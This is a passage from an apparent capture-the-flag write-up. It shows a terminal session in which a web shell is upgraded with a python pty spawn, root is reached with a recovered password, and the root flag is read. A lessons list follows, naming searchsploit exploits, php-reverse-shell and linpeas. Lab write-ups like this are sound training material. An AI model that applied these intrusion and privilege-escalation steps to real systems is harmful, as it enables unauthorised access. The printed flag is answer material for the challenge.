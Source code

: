 ```bash

```


Lets try to use the username `root` with the password `mememe`!

We can use `python -c 'import pty; pty.spawn("/bin/bash")` to open a proper terminal session!

Lets check if we find the `root` flag:

```bash
www-data@ubuntu:/tmp$ su root
su root
su: must be run from a terminal
www-data@ubuntu:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ su root
su root
Password: mememe

root@ubuntu:/tmp# cd ~
cd ~
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d
root@ubuntu:~#
```
And we found it... Job was successful :-) 

Answer: `b9bbcb33e11b80be759c4e844862482d`



## Thoughts:

This CTF was very nice in the beginning, because I tried a lot of ways to `upload` the `php` file, which was not attended. After using the exploit for `FUEL CMS` and retrieving the `user flag` it was a bit time intense for escalate our privileages... `Linepeas` is a really nice script for scanning for vulnerabilities but you have to read and analyze it very properly which is very time intense..

What did we learn today? 
- using `nmap` for scanning ports/services
- analyzing webpages properly
- using `searchsploit` and use an `exploit`
- using `python` to open a webserver 
- using `php-reverse-shell` for getting into the system
- using `linepeash.sh` for analyzing vulnerabilities for elevate privileages








